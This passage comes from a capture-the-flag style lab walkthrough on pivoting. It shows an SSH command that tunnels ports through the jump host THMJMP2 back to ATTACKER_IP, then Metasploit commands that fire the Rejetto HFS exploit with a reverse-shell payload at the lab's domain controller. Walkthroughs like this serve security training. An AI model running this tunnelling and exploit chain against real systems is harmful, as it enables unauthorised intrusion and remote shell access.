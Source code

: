 Rejetto HFS will be listening on port 80 on THMDC, so we need to tunnel that port back to our attacker's machine through THMJMP2 using remote port forwarding. Since the attackbox has port 80 occupied with another service, we will need to link port 80 on THMDC with some port not currently in use by the attackbox. Let's use port 8888. When running ssh in THMJMP2 to forward this port, we would have to add `-R 8888:thmdc.za.tryhackme.com:80` to our command.

For SRVPORT and LPORT, let's choose two random ports at will. For demonstrative purposes, we'll set `SRVPORT=6666` and `LPORT=7777`, but be sure to use different ports as the lab is shared with other students, so if two of you choose the same ports, when trying to forward them, you'll get an error stating that such port is already in use on THMJMP2.

To forward such ports from our attacker machine to THMJMP2, we will use local port forwarding by adding `-L *:6666:127.0.0.1:6666` and `-L *:7777:127.0.0.1:7777` to our ssh command. This will bind both ports on THMJMP2 and tunnel any connection back to our attacker machine.

Putting the whole command together, we would end up with the following:

```
C:\> ssh tunneluser@ATTACKER_IP -R 8888:thmdc.za.tryhackme.com:80 -L *:6666:127.0.0.1:6666 -L *:7777:127.0.0.1:7777 -N
```

**Note**: If you are using the AttackBox and have joined other network rooms before, be sure to select the IP address assigned to the tunnel interface facing the `lateralmovementandpivoting` network as your ATTACKER_IP, or else your reverse shells/connections won't work properly. For your convenience, the interface attached to this network is called `lateralmovement`, so you should be able to get the right IP address by running `ip add show lateralmovement`:

<img src="/assets/images/THM/Lateral%20Movement%20and%20Pivoting/19.png" width="80%">

Once all port forwards are in place, we can start Metasploit and configure the exploit so that the required ports match the ones we have forwarded through THMJMP2:

```
user@AttackBox$ msfconsole
msf6 > use rejetto_hfs_exec
msf6 exploit(windows/http/rejetto_hfs_exec) > set payload windows/shell_reverse_tcp

msf6 exploit(windows/http/rejetto_hfs_exec) > set lhost thmjmp2.za.tryhackme.com
msf6 exploit(windows/http/rejetto_hfs_exec) > set ReverseListenerBindAddress 127.0.0.1
msf6 exploit(windows/http/rejetto_hfs_exec) > set lport 7777

msf6 exploit(windows/http/rejetto_hfs_exec) > set srvhost 127.0.0.1
msf6 exploit(windows/http/rejetto_hfs_exec) > set srvport 6666

msf6 exploit(windows/http/rejetto_hfs_exec) > set rhosts 127.0.0.1
msf6 exploit(windows/http/rejetto_hfs_exec) > set rport 8888
msf6 exploit(windows/http/rejetto_hfs_exec) > exploit
```
